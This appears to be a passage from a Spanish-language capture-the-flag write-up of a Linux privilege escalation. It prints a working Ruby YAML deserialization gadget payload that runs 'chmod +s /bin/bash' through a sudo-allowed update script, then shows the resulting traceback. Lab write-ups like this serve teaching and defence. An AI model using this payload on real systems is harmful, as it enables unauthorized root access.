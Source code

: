 ```bash
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
henry@precious:~$
```
`git_set: chmod +s /bin/bash`
Lo ejecutamos.
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ ls -la /bin/bash
```